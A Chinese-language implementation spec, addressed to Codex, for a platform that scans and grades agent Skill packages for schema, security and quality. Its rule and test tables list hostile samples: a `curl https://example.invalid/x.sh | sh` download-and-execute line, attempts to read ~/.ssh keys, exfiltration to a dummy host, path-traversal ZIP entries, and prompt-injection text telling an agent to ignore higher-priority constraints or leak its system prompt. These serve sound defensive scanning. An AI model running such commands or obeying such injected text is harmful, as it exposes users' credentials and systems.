

# Skill 质量与安全平台（SQSP）— Codex 项目实施规格书

> **文档属性**：PRD + 技术调研 + 系统架构 + 接口契约 + Skill 规范 + MVP 验收标准  
> **版本**：v1.0 | **日期**：2026-11-03 | **目标读者**：Codex / 研发工程师 / 架构师  
> **定位**：这份文档是可执行的**开发任务说明书**。Codex 应据此创建可运行、可测试、可演示的项目，而不是只输出规划、原型图或伪代码。

---

## 0. 给 Codex 的最高优先级指令

请在当前仓库中实现名为 **Skill Quality & Security Platform（SQSP）** 的项目。先检查仓库结构和现有依赖，若为空仓库则按本规范初始化；若已有代码，优先复用兼容的部分，不要随意覆盖。

**交付原则**：

1. **范围仅为 Skill 层级**：扫描、评估、管理 Agent Skills（`SKILL.md` + scripts/references/assets 等）。允许接入宿主 Agent 作为评测适配器，但不开发通用 Agent 评测平台，也不开发 MCP 连接器平台。
2. **先闭环、后扩展**：先交付上传 Skill ZIP → 安全解包 → 格式校验 → 静态检测 → 质量评分/覆盖说明 → 报告展示/导出。动态沙箱执行及 LLM 语义检测采用可插拔能力，未配置时标记 `NOT_RUN` / `UNAVAILABLE`，绝不伪造通过结果。
3. **安全默认拒绝**：未可信的 Skill 永远不得在 Web API 进程、扫描 Worker 宿主机或开发者主机上直接执行。动态扫描必须使用独立执行环境，默认禁止网络、宿主凭据、特权与宿主写入；没有符合条件的沙箱时，不运行动态部分。
4. **可重复与可审计**：每次检测保存 Skill 文件清单/hash、规则版本、扫描器版本、耗时、finding 证据、完成状态、评分明细。支持同一 Skill 不同版本比较。
5. **不要虚构能力**：如果缺少真实模型宿主、实际沙箱或足够的评测数据，只能报告“未执行/覆盖不足”，不能把静态规则命中率当成 Skill 的真实任务成功率。
6. **优先写真实代码和测试**：每个阶段提交可运行服务、自动化测试与 README；不以只生成页面截图、静态假数据仪表盘或仅列出 TODO 作为完成。
7. **遇到不确定第三方 CLI/API**：查阅其官方 README 和本机安装版本，先封装 Adapter；不在核心领域模型里硬编码不稳定 CLI 输出。

### 0.1 开发完成定义

运行 `docker compose up --build` 后，应能打开 Web UI，上传仓库内提供的良性/恶意示例 Skill，看到真实规则结果；安全目录遍历、符号链接与压缩炸弹等导入攻击被拒绝；可查看规则证据、规则版本、质量项得分和未运行项；可对比两个版本并下载 JSON 报告。所有自动化测试通过。

### 0.2 明确不做

- 不重做 Claude Code / Codex / OpenClaw 等 Agent 宿主。
- 不评估模型通用推理能力、通用聊天质量、跨产品 Agent 排行榜。
- 不实现完整 MCP Registry、连接器生命周期或第三方 OAuth 管理。
- 不接触真实客户数据、生产 Token、生产内网工具或实际高危攻击目标。
- MVP 不引入真实支付、复杂多租户、企业 SSO、全量市场爬虫、在线模型训练、通用任意命令执行器。

---

## 1. 技术调研：已有项目与可复用程度

**时间口径**：以下根据截至 2026-11-03 可见的公开 README/规范整理；部署前请再锁定依赖版本、许可证与兼容性。

| 来源 | 已确认能力 | 对本项目的价值 | 不应误解为 |
|---|---|---|---|
| [Agent Skills 官方规范](https://agentskills.io/specification) / [GitHub](https://github.com/agentskills/agentskills) | 定义 `SKILL.md` YAML frontmatter，必填 `name`、`description`，推荐 `scripts/`、`references/`、`assets/`；提供参考校验器 `skills-ref` | 兼容基础格式、文件解析、规范检查 | 并不定义企业权限批准流程与运行时安全授权 |
| [Cisco AI Defense Skill Scanner](https://github.com/cisco-ai-defense/skill-scanner) / [文档](https://cisco-ai-defense.github.io/docs/skill-scanner) | 规则/签名、代码 AST 和数据流、可选 LLM 分析、依赖风险与结构化 findings；明确 best-effort | 参考多引擎发现模型；可选外部扫描 Adapter | 不能将“没有 finding”当成保证无风险 |
| [NVIDIA SkillSpector](https://github.com/NVIDIA/skillspector) | 针对 Skill 的静态规则、可选语义检测、供应链风险、JSON/SARIF、基线；有 MCP 接口 | 安全分类、证据输出、资源限制、接入参考 | 不可把外部扫描器分数当成本平台统一安全证明 |
| [Snyk Agent Scan](https://github.com/snyk/agent-scan) | 扫描 Skill/MCP 等组件，识别注入、恶意代码、凭据风险 | 跨项目参考；可作为可选第三方 Adapter | README 说明 CLI 输出字段仍在变化，MVP 不应与其字段强耦合 |
| [Anthropic Skills / skill-creator](https://github.com/anthropics/skills) | Skill 创建、触发测试、任务执行效果、基线对照、时间与 token 分析、迭代 | Skill 质量评测思路：触发、成功率、稳定性、成本 | 不是可直接替代本项目的统一安全执行环境 |
| [OpenAI Skills / skill-creator](https://github.com/openai/skills) | Skills 包装指导、frontmatter、资源组织、验证建议 | 规范可读性、渐进披露、描述质量 | 某些工具特有规则不是 Agent Skills 通用标准 |
| [OWASP Agentic Skills Top 10](https://github.com/OWASP/www-project-agentic-skills-top-10) | Skill 相关恶意载荷、供应链、越权、外部指令、隔离、治理等分类 | 威胁建模和风险控制清单 | 社区指导与发展中的项目，不应作为已经强制执行的统一技术协议 |
| [OSV-Scanner](https://github.com/google/osv-scanner) | 依赖提取与漏洞匹配 | 对锁定依赖做供应链风险扫描 | 对未锁定/无法解析依赖不能保证完整覆盖 |
| [gVisor](https://gvisor.dev/docs/) / [Firecracker](https://github.com/firecracker-microvm/firecracker) | 容器隔离 / 微虚拟机隔离 | 后续动态执行场景的隔离技术选项 | Docker 默认容器、gVisor 和微虚拟机并非相同安全等级 |

### 1.1 关键事实与设计决定

- **基础格式**：官方 `SKILL.md` frontmatter `name` 长度 1–64、仅小写字母/数字/连字符，不能以 `-` 开头/结尾或出现连续 `--`，应与父目录名一致；`description` 非空，长度不超过 1024；`metadata` 是字符串键值映射；`allowed-tools` 是**实验性**字段、不同宿主支持不同。见[官方规范](https://agentskills.io/specification)。
- **Skill 是“说明 + 资源 + 可执行内容”的组合**。如果扫描器只分析 Markdown 主体，忽略脚本、锁文件、隐藏文件、嵌套文档与远程加载指令，将造成严重盲区。
- **分层**：规范校验、静态安全、依赖供应链、语义审查、隔离动态、质量效果是不同证据来源；组合报告必须展示各层状态。
- **安全级别与任务质量绝不混算**：高质量恶意 Skill 必须阻断。
- **第三方扫描器采用 Adapter 模式**：将 JSON/SARIF 转换为本平台统一 Finding DTO，同时保留原始结果、引擎版本、扫描模式、失败和超时状态。
- **MVP 不依赖 LLM**：可以独立完成导入、解析、确定性规则、报告、对比；LLM 检测与效果评测作为后续阶段增强。

### 1.2 与现有产品的差异化

现有扫描器侧重“此 Skill 安不安全”；本平台在此基础上加入：

1. **Skill 规范校验 + 能力声明核对**：Skill 描述声称需要的权限与平台批准的权限相互对照。
2. **Skill 级质量指标**：结构完整性、触发描述质量、可验证示例、可复现任务成功率、跨版本回归。
3. **检测证据透明化**：逐条展示文件、行号、规则、原因、整改建议、误报处理与检测覆盖状态。
4. **发布门禁**：分离 `quality_score`、`security_risk`、`coverage` 和 `decision`。
5. **可移植规范**：官方 `SKILL.md` 不被破坏；平台增强声明放在额外的 `skill-security.yaml`，测试用例放在 `evals/cases.yaml`。

---

## 2. 产品用户、场景、交互

### 2.1 用户角色

- **Skill 作者**：上传 Skill，查看结构/安全/质量问题和修复建议；对比修改前后。
- **安全审核者**：查看高风险证据、处理误报/例外（有理由、到期时间、审计记录）。
- **平台管理员**：管理策略版本、文件限制、评测环境及扫描集成（MVP 仅配置文件管理）。

### 2.2 最小核心流程

1. 用户上传 ZIP（必须包含一个根 Skill 目录及其中的 `SKILL.md`，也兼容 ZIP 根目录直接包含 `SKILL.md`）。
2. 平台流式接收并检查包大小、压缩率、条目数量、目录层级、文件类型与路径安全。
3. 保存内容寻址的只读存储对象；计算整体 hash 与每文件 hash；创建 `scan_id`。
4. 解析 frontmatter、扫描所有可解析文件、运行规则与外部扫描插件（可用时）。
5. 生成质量维度中**确实已评测**的部分；未运行的动态/语义项标记 `NOT_RUN`。
6. 统一风险发现，计算各维分数、覆盖、发布决策；前端展示详情。
7. 用户可下载 JSON 报告；上传新版本后可按同名 Skill 比较。

### 2.3 MVP 页面

| 页面 | 内容 | 必做交互 |
|---|---|---|
| `/` Dashboard | 最近扫描列表、状态、风险级别、质量评分/覆盖情况 | 搜索、状态筛选、跳转详情 |
| `/upload` Skill 上传 | ZIP 拖拽上传、格式说明、大小限制、检测模式选择 | 上传并创建 Scan |
| `/scans/:id` 扫描报告 | 摘要、规范校验、质量指标、安全 Findings、文件定位、扫描覆盖、执行日志 | 筛选 severity/engine，展开证据，导出 JSON |
| `/compare?left=&right=` 版本对比 | 新增/解决/保留的 Finding、质量维度变化、策略版本变化 | 选择两次 Scan 并比较 |

UI 状态：`QUEUED / RUNNING / COMPLETED / PARTIAL / FAILED`；分析阶段状态：`NOT_RUN / RUNNING / PASSED / FINDINGS / PARTIAL / ERROR / TIMEOUT / UNAVAILABLE`。凡 `PARTIAL`、`ERROR`、`UNAVAILABLE`，不能将整份报告标记为“已全面通过”。

---

## 3. 架构方案

### 3.1 选型（优先易落地与可测试）

- **前端**：React + TypeScript + Vite + Ant Design；React Query 管理请求；图表可选 ECharts。
- **API**：Python 3.12 + FastAPI + Pydantic v2 + SQLAlchemy 2 + Alembic。
- **数据库**：PostgreSQL（Docker Compose）。测试使用独立 PostgreSQL DB；纯单元测试可用 SQLite 但不得依赖其实现特殊查询语义。
- **异步任务**：Redis + RQ（或稳定等价的 Python 任务队列）；任务 Worker 与 API 进程完全分离。
- **对象存储**：MVP 可使用服务端隔离的持久卷，按 hash 和 UUID 保存 ZIP 及报告；抽象 `ArtifactStore`，未来可接 S3/MinIO。
- **基础扫描**：Python 安全 YAML/Markdown 解析、AST（Python）、文本规则、Secrets 检测；不运行被扫描文件。
- **外部扫描器**：可选 `CiscoScannerAdapter`、`SkillSpectorAdapter`、`OSVAdapter`；每个通过独立进程、只读目录和超时限制调用，未知 CLI 输出版本时不要激活。
- **动态执行**：独立 `SandboxRunner` 接口；MVP 默认 `DisabledSandboxRunner`，返回 `UNAVAILABLE`。只有配置并自检隔离运行时后，才允许进入动态验证。后续优先 gVisor Kubernetes 工作节点或 Firecracker 微虚拟机。
- **LLM 语义分析**：`SemanticAnalyzer` 接口 + `NoopAnalyzer` 默认实现；需要显式配置安全、隔离且获准使用的模型才能调用，禁止把生产密钥/敏感样本送往外部。

**开发取舍**：不要为了 MVP 引入 Kafka、Kubernetes Operator、微服务网格、分布式 Tracing 平台。先用清晰分层的单仓库 + 独立 Worker 实现。

### 3.2 系统组件



### 3.3 关键模块职责

1. `ingest`：上传、限额、流式 hash、内容寻址、归档安全检查、解包；永不执行压缩包脚本。
2. `skill_parser`：解析 `SKILL.md` frontmatter，规范校验；分析引用路径与 Markdown 指令；生成 `SkillManifest`。
3. `inventory`：文件 SHA256、类型、大小、相对路径、隐藏文件、嵌套内容、依赖声明；识别可执行文件、压缩包、符号链接等。
4. `policy`：解析 `skill-security.yaml`，与平台批准权限/策略匹配；缺声明视为最低权限，不以 Skill 自报权限自动授权。
5. `static_scanner`：确定性文本/AST/依赖规则；规则版本化。
6. `semantic_scanner`：语义提示注入/社会工程检测；默认不启用，可按规则采样，只给证据与置信度，不直接执行 Skill 指令。
7. `dynamic_runner`：可插拔隔离运行；捕捉文件写入、网络请求、执行进程与工具调用等事件；不暴露真实凭据。
8. `quality_evaluator`：格式质量、说明可用性、测试用例质量；可选触发/任务测试，明确覆盖和宿主环境。
9. `decision_engine`：统一 findings、评分、门禁、人工审核状态。
10. `reporting`：JSON 输出、前端 DTO、差异报告、规则级统计。

### 3.4 安全边界（强制）

- API 容器、数据库、队列和静态扫描 Worker **不执行** Skill 代码。
- API 不挂载 Docker socket；扫描 Worker 也不得因“方便”而拥有特权模式或宿主敏感目录。
- 若需要启动沙箱，由**独立可信 Runner 服务**在专门执行主机上负责；Runner 必须做身份认证、输入校验、配额、镜像校验及网络隔离，不能提供任意命令公开接口。
- 未受信 ZIP 的条目不得提取到用户指定目录；禁绝绝对路径、`..`、Unicode 混淆路径、重复名称、NTFS/Unix 设备文件、符号链接与硬链接；路径标准化前后校验，防 TOCTOU。
- ZIP 限额建议：压缩包 20 MiB、总解压 100 MiB、最多 300 个条目、单文件最多 10 MiB、路径深度最多 10、压缩比最多 100:1；均通过配置调整。对零字节、未知尺寸等边界情况需谨慎判定，超限立即拒绝。
- 使用安全 YAML 加载器；限制 frontmatter 和嵌套深度；不允许执行自定义 YAML tags。Markdown/报告输出必须 HTML escape，防 XSS。
- 如后续允许 GitHub URL：仅允许 HTTPS 与显式 allowlist 域名；校验解析后 IP、重定向、DNS rebinding；锁定 commit SHA、大小与超时。MVP **只做本地 ZIP 上传**。
- 任何 `critical` finding、检测范围异常或必须项扫描器失败，都不得自动授予“安全可安装”标记。
- 全局日志拒绝记录上传源代码正文、Token、模型密钥；测试素材只能是合成数据。

---

## 4. 核心数据模型

所有主键建议使用 UUID；时间 UTC；关系约束、唯一键和索引纳入迁移。

### 4.1 `skills`

```text
id UUID PK
name VARCHAR(64) NOT NULL
owner_label VARCHAR(100) NULL       # MVP 自填，非可信身份
created_at TIMESTAMPTZ
UNIQUE(name, owner_label)
```

### 4.2 `skill_versions`

```text
id UUID PK
skill_id UUID FK
version_label VARCHAR(64) NULL       # 来自 metadata，非可信声明
artifact_sha256 CHAR(64) NOT NULL
artifact_storage_key VARCHAR(255) NOT NULL
manifest_json JSONB NOT NULL
file_inventory_json JSONB NOT NULL
created_at TIMESTAMPTZ
UNIQUE(skill_id, artifact_sha256)
```

### 4.3 `scans`

```text
id UUID PK
skill_version_id UUID FK
status ENUM(QUEUED,RUNNING,COMPLETED,PARTIAL,FAILED)
requested_modes JSONB           # schema,static,dependencies,semantic,dynamic,quality
stage_status JSONB              # 每个阶段独立 status + reason
scanner_versions JSONB
policy_version VARCHAR(50)
quality_score NUMERIC NULL      # 未满足评分前提则 NULL
quality_coverage NUMERIC NOT NULL DEFAULT 0
security_risk_index NUMERIC NULL # 仅审阅排序，不是安全保证
security_verdict ENUM(PASS,REVIEW,BLOCK,UNKNOWN)
release_decision ENUM(ALLOW,REVIEW,BLOCK,INCOMPLETE)
started_at TIMESTAMPTZ NULL
completed_at TIMESTAMPTZ NULL
error_code VARCHAR(80) NULL
created_at TIMESTAMPTZ
```

### 4.4 `findings`

```text
id UUID PK
scan_id UUID FK
rule_id VARCHAR(80)
engine VARCHAR(80)
category VARCHAR(80)
severity ENUM(INFO,LOW,MEDIUM,HIGH,CRITICAL)
confidence ENUM(LOW,MEDIUM,HIGH)
file_path VARCHAR(512) NULL
line_start INT NULL
line_end INT NULL
evidence_excerpt TEXT NULL    # 截断和脱敏，禁止泄露密钥原值
message TEXT NOT NULL
remediation TEXT NULL
fingerprint CHAR(64) NOT NULL
status ENUM(OPEN,ACCEPTED_RISK,FALSE_POSITIVE,RESOLVED)
UNIQUE(scan_id, fingerprint)
```

`fingerprint` 应根据规则 ID、归一化路径和证据归一化信息生成稳定摘要，不能用随机 UUID 做跨版本差异匹配；含敏感内容的摘要不能从完整 secret 值派生为可被枚举的标识。

### 4.5 `quality_results`、`audit_events`

- `quality_results`: `scan_id`、`dimension`、`metric`、`numerator`、`denominator`、`score`、`status`、`runner_version`、`evidence_ref`。
- `audit_events`: `actor`、`event_type`、`resource_type`、`resource_id`、`event_metadata_redacted`、`created_at`。MVP 可使用 `system`、`local-reviewer`；生产化再引入真实认证和 RBAC。
- 不要把 `false_positive` 记录直接删除；必须保留审核理由、规则版本与到期时间，且 CRITICAL 的永久白名单禁止由普通用户自行配置。

---

## 5. API 契约（前后端以 OpenAPI 为单一事实来源）

所有返回统一错误结构：

```json
{"error":{"code":"INVALID_ARCHIVE","message":"Unsafe archive entry","details":{"path":"../escape"},"request_id":"..."}}
```

| 方法 | 路径 | 输入 | 输出 | 备注 |
|---|---|---|---|---|
| `POST` | `/api/v1/skills/upload` | `multipart/form-data`: `file` ZIP，`owner_label?` | `{skill_id, version_id, sha256}` | 同 hash 去重；限制类型大小 |
| `POST` | `/api/v1/scans` | `{version_id, modes?}` | `{scan_id, status:"QUEUED"}` | 异步任务；MVP 模式默认 schema/static/quality |
| `GET` | `/api/v1/scans/{id}` | — | `ScanSummary` | 状态、阶段状态、评分/门禁 |
| `GET` | `/api/v1/scans/{id}/findings` | `severity?, engine?, offset?, limit?` | `{items,total}` | 分页和筛选 |
| `GET` | `/api/v1/scans/{id}/quality` | — | `{dimensions, coverage, score, reasons}` | 不可评测项显示原因 |
| `GET` | `/api/v1/scans/{id}/report` | `format=json` | 完整 JSON 报告 | 包含来源版本和配置 |
| `GET` | `/api/v1/skills` | `q?,limit?,offset?` | 列表 | 默认按创建时间倒序 |
| `GET` | `/api/v1/skills/{id}/versions` | — | Skill 版本列表 | |
| `GET` | `/api/v1/compare?left={id}&right={id}` | 两个 Scan ID | `ScanDiff` | 必须指出策略版本差异 |
| `GET` | `/api/v1/rules` | `category?` | 规则清单、版本、默认 severity | |
| `GET` | `/healthz` | — | liveness | 不依赖数据库 |
| `GET` | `/readyz` | — | readiness | 检测数据库/Redis |

`POST /scans` 应幂等设计：同版本同模式同规则集可选择复用既有任务，但应允许显式重扫。状态轮询用 2 秒间隔即可，MVP 不要求 SSE/WebSocket。

### 5.1 样例 `ScanSummary`

```json
{
  "scan_id": "33ccf4f4-2c9b-43af-8fc9-a08fd1cab56a",
  "skill_name": "safe-report-helper",
  "artifact_sha256": "sha256-hex",
  "status": "PARTIAL",
  "stages": {
    "schema": {"status":"PASSED"},
    "static": {"status":"FINDINGS"},
    "dependency": {"status":"NOT_RUN", "reason":"No lockfile"},
    "semantic": {"status":"NOT_RUN", "reason":"No model configured"},
    "dynamic": {"status":"UNAVAILABLE", "reason":"Sandbox not configured"},
    "quality": {"status":"PARTIAL", "reason":"Task runner unavailable"}
  },
  "quality_score": null,
  "quality_coverage": 0.35,
  "security_verdict": "REVIEW",
  "release_decision": "INCOMPLETE",
  "finding_counts": {"critical":0,"high":0,"medium":1,"low":2,"info":1}
}
```

说明：例子中的 `quality_coverage` 是演示值，不是已实测项目结果；输出数据必须由真实执行产生。`quality_score` 为 NULL 不表示 0 分，而是质量评测前提不足。

---

## 6. Skill 规范设计（兼容官方 + 平台扩展）

### 6.1 目录规范

```text
safe-report-helper/
├── SKILL.md                   # 官方必填
├── skill-security.yaml        # SQSP 扩展：声明所请求的权限，不是批准凭据
├── scripts/                   # 可选
│   └── summarize.py
├── references/                # 可选
│   └── INPUT_FORMAT.md
├── assets/                    # 可选
│   └── report-template.md
└── evals/                     # SQSP 扩展：可选
    └── cases.yaml
```

### 6.2 `SKILL.md`（遵守 Agent Skills 规范）

```markdown
---
name: safe-report-helper
description: Generate a concise Markdown report from a supplied local CSV file. Use when a user explicitly asks for a CSV summary report.
license: MIT
metadata:
  author: example-team
  version: "1.0.0"
---

# Safe Report Helper

1. Read only the user-provided CSV file in the assigned workspace.
2. Validate the header and reject invalid input with a clear error.
3. Write the Markdown report only inside the approved output directory.
4. Never read credentials, access external network resources, or execute downloaded scripts.

See `references/INPUT_FORMAT.md` for the CSV schema.
```

注意：官方 `allowed-tools` 是实验性字段，且具体宿主解释存在差异。**不要把它当作强制权限网关**。是否需要在 Skill 中使用该字段，应由宿主适配器决定。

### 6.3 `skill-security.yaml`：SQSP 建议扩展（非官方标准）

```yaml
schema_version: "1.0"
security:
  network:
    mode: deny          # deny | allowlist
    allow_hosts: []
  filesystem:
    read:
      - "${WORKSPACE}/inputs/**"
    write:
      - "${WORKSPACE}/outputs/**"
    deny:
      - "${HOME}/.ssh/**"
      - "${HOME}/.config/**"
  subprocess:
    allowed: false
  environment:
    allowed_keys: []
    secret_access: false
  destructive_actions:
    allowed: false
    confirmation_required: true
  max_runtime_seconds: 30
  max_memory_mb: 256
  max_cpu_millicores: 500
provenance:
  source_url: null
  source_commit: null
```

**语义必须明确**：

- 此文件是作者的权限“请求与承诺”，不是授权令牌。
- 真正有效权限 = **平台允许的权限 ∩ 审批通过的声明**；不在允许列表上的操作绝不能因为声明了就执行。
- 所有路径模板必须经严格变量替换，禁止用户自定义模板解析成任意宿主路径。
- 不存在声明文件时采取最低权限，并给出相应覆盖/声明缺失警告。
- 若某执行器不支持精确的路径级权限控制，必须拒绝执行该需要路径级隔离的场景，而不是宣称已强制执行。

### 6.4 `evals/cases.yaml`：SQSP 建议扩展

```yaml
schema_version: "1.0"
cases:
  - id: CSV-001
    name: valid-csv-summary
    category: functional
    trigger_prompt: "请总结这个 CSV 并生成 Markdown 报告"
    fixtures:
      - source: "fixtures/example.csv"
        target: "inputs/example.csv"
    expected:
      output_file: "outputs/report.md"
      contains:
        - "总行数"
      forbidden_tool_calls: []
    repeat: 1
  - id: CSV-002
    name: out-of-scope-trigger
    category: trigger_negative
    trigger_prompt: "给我解释 Python 字典的基本用法"
    expected:
      skill_selected: false
    repeat: 1
```

`fixtures/` 仅为示例测试资产，执行前应审核确认完全合成、无真实凭据。`trigger_*` 评测只有在连接真实宿主选择器且能观测选择事件时才运行；没有宿主适配器则标记 `NOT_RUN`，不能通过关键词匹配模拟其真实触发准确率。

### 6.5 规范校验项

- `SKILL.md` 存在、frontmatter 正确、必填字段合法、`name` 与目录一致。
- 文件引用目标在 Skill 包内、路径可解析、不越界。
- Markdown 结构清晰、明确用途/输入/输出/失败处理（最佳实践、非官方强制字段）。
- 敏感权限有对应的 `skill-security.yaml` 声明；请求宽泛权限时提示人工审核。
- 质量测试用例可解析，测试资产不引用包外文件。
- 输出校验 `standards_version`、`platform_policy_version` 和 `coverage`，区分标准违规与改进建议。

---

## 7. 安全扫描规则集（MVP 第一批）

**重要**：以下是 SQSP 自定义规则 ID，不是 OWASP 官方 AST 编号；可在报告中映射到对应风险类别。所有示例仅用于扫描或隔离测试。

| ID | 等级建议 | 检测对象与思路 | 可能误报 / 处理 |
|---|---|---|---|
| SQSP-S001 | CRITICAL | 说明/脚本中明确要求读取密钥并发送到外部地址；需证据链 | 文档中的反面教材可能误报；审核时标记示例语境 |
| SQSP-S002 | HIGH | 发现 `curl/wget` 下载后立即 pipe 到 shell 的执行链 | 可能用于合法安装，但应审核来源与 pinning |
| SQSP-S003 | HIGH | Python AST 命中危险的 `eval`/`exec`、动态 shell 执行 | 需要上下文判断，不能以命中即判为恶意 |
| SQSP-S004 | HIGH | ZIP 中含可执行二进制/异常文件类型或不受支持的嵌套载荷 | 可以是合法资源，默认人工审核 |
| SQSP-S005 | HIGH | 明确的提示注入：让 Agent 忽略高优先级约束/泄露系统提示 | 合法的安全研究文档可能误报 |
| SQSP-S006 | HIGH | 请求读写 `~/.ssh`、系统凭据、工作区外路径 | 文档中讨论安全风险可误报 |
| SQSP-S007 | HIGH | 含明文疑似 Token/API key/私钥 | 使用校验器/熵 + 已知格式；证据必须脱敏 |
| SQSP-S008 | MEDIUM | 外部 URL 提供可变指令，缺少固定版本或 hash | 外部参考链接不必然危险，区分“引用”与“执行” |
| SQSP-S009 | MEDIUM | 安全声明网络 deny，但脚本存在出站网络调用路径 | 需跨文件/语义核对，不是所有 URL 都执行 |
| SQSP-S010 | MEDIUM | 文件操作使用未经验证的输入路径，可写到输出目录外 | AST/数据流最佳努力发现 |
| SQSP-S011 | MEDIUM | 依赖缺乏锁定版本、发现已知漏洞依赖 | 缺少锁文件应记扫描覆盖不足 |
| SQSP-S012 | MEDIUM | 依赖安装 hooks 或 setup 脚本存在不安全执行链 | 说明与引用不等于执行 |
| SQSP-S013 | MEDIUM | 指令要求执行删除、覆盖、发送邮件等高影响操作但未声明确认 | 审核业务语境 |
| SQSP-S014 | MEDIUM | 请求权限显著超出描述中完成任务所需范围 | 语义规则，需人工审核 |
| SQSP-S015 | LOW | `SKILL.md` 对外部工具依赖模糊、缺少失败处理 | 质量建议，不应当作安全漏洞 |
| SQSP-S016 | INFO | 未提供测试用例、许可证或版本信息 | 报告覆盖与可维护性，不是安全结论 |

### 7.1 实现要求

- 检测器统一输入 `FileInventory + ParsedSkill + RequestedPermissions`，输出 `Finding[]`。
- 每条 Finding 需要 `rule_id`、severity、confidence、`file_path`、`line_start/end`、`message`、`remediation`、`engine`、`fingerprint`。
- 文本正则规则只做候选发现；跨行命令拼接、字符串编码、间接引用与多文件脚本要尽可能纳入检测，但不宣称完整检测。
- Python AST 提供真正语法层面的 `eval`、`exec`、`subprocess` 等调用检测；不要依赖简单字符串包含，避免注释或字符串误判。
- `semgrep`、`Cisco`、`NVIDIA`、`OSV` 可作为后续 Adapter；若工具未安装/错误，应完整保留失败状态，不返回空 findings 伪装成功。
- 检测结果包含 `matched_rule_version` 与 `engine_version`，规则配置（YAML/JSON）与实现代码一起纳入仓库。
- 下载执行、权限异常、明文凭据等不能仅靠一个 regex 盖棺定论；高风险建议二次审查。

### 7.2 外部输入攻击测试（全部使用无害的模拟目标）

| Case | 包内容 / 目的 | 预期 |
|---|---|---|
| SEC-01 | `SKILL.md` 中隐藏“忽略高优先级指令”的恶意文本 | 语义或规则层产生 finding，来源定位准确 |
| SEC-02 | 脚本尝试读 `~/.ssh/id_rsa`，但无真实文件 | 安全发现，且运行时拒绝访问 |
| SEC-03 | 脚本意图向虚构域名 `example.invalid` 发送内容 | 命中网络风险；无真实出网 |
| SEC-04 | `curl https://example.invalid/x.sh \| sh` 文本 | 命中下载执行风险，不执行命令 |
| SEC-05 | Python `eval(user_input)` | 命中危险代码规则 |
| SEC-06 | 注释里包含上述命令作为“不要这么做”的示例 | 标记潜在误报 / 语义审查，不直接判恶意 |
| SEC-07 | ZIP 条目 `../../outside.txt` | 导入阶段立即拒绝 |
| SEC-08 | ZIP 内绝对路径 `/tmp/outside` | 导入阶段立即拒绝 |
| SEC-09 | ZIP 符号链接指向包外 | 导入阶段立即拒绝 |
| SEC-10 | ZIP 总解包大小/条目数/深度超限 | 拒绝且资源使用受限 |
| SEC-11 | skill-security 声明网络 deny，代码尝试请求网络 | 发现冲突；动态如启用则实际网络阻断 |
| SEC-12 | 未配置动态沙箱却请求动态扫描 | 返回 UNAVAILABLE，release INCOMPLETE |

---

## 8. 质量评测模型（必须说明可测范围）

### 8.1 分层维度

| 维度 | 权重（完整评测时） | 指标与依据 | MVP 可否真实计算 |
|---|---:|---|---|
| 规范符合性 | 20% | 官方字段、引用路径、目录和元数据 | 是 |
| 可理解性与可维护性 | 20% | 说明完整、步骤明确、错误处理、例子与版本 | 可做确定性启发式，需标记局限 |
| 功能正确性 | 40% | 经真实宿主执行的通过率、基线对照、失败归类 | 否，除非接入宿主 Runner |
| 稳定性与效率 | 20% | 多次运行波动、延迟/token/资源消耗、回归 | 否，除非接入宿主 Runner |

**公式（仅在四类均完成时输出）**：`QualityScore = 0.2 * Conformance + 0.2 * Maintainability + 0.4 * Correctness + 0.2 * Reliability`，各分项为 0–100。

**缺失维度处理**：不得把缺失项目计成 100 或按已测维度重归一化为“完整质量分”。允许显示 `static_quality_subscore`（明确为局部得分）、`quality_coverage = sum(已完成维度权重)`；未完成全量评测时 `quality_score = null`。

### 8.2 功能效果指标（后续运行适配器）

- **正向触发率**：应触发样本中宿主实际启用该 Skill 的比例。
- **误触发率**：不应触发样本中被错误启用的比例。
- **任务成功率**：满足预先定义的输出与副作用断言的次数/有效运行次数。
- **稳定性**：同一 Case 多次执行的成功率、方差与最差情况；推荐每个关键 Case 至少 3 次（最终次数配置化）。
- **基线收益**：`with_skill` 与 `without_skill` 在相同任务/模型/环境下的差值；不做基线时标记 `NOT_EVALUATED`。
- **资源效率**：P50/P95 延迟、token、CPU、内存、隔离环境启动耗时；无数据不得赋 0。

**原则**：`trigger` 和 `task_success` 必须来自真正可观测的宿主运行；不能仅凭 Markdown 关键词匹配或“LLM Judge 认为应该成功”模拟任务成功。

### 8.3 安全指标与门禁

- 安全单独产出 `security_verdict`：`PASS / REVIEW / BLOCK / UNKNOWN`。
- `security_risk_index` 可作为审阅排序使用，例如 `min(100, sum(max_weight(severity) * confidence_factor))`；但**不能**用指数小于某阈值证明安全。
- 阻断规则：解析不安全、存在已确认恶意载荷/实际凭据外传/越权执行、必需扫描能力无法运行且被策略要求时 → `BLOCK` 或 `INCOMPLETE`；不允许自动发布。
- 高风险启发式 finding → `REVIEW`，不直接一概判“恶意”。
- 静态扫描完成但动态扫描未运行 → 允许结论“静态检查结果”，不得宣称“已通过全面安全审查”。
